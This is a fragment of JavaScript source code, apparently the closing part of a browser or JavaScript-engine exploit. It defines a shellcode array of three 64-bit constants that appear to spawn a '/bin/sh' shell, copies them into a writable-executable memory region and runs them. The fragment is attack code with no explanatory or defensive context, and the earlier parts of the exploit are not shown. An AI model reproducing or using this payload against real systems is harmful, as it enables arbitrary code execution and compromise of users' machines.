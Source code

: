 ```javascript
    }

    var shellcode = [
        0x2fbb485299583b6an,
        0x5368732f6e69622fn,
        0x050f5e5457525f54n
    ];
    
    copy_shellcode(shellcode,rwx_addr);
    f();
});
```
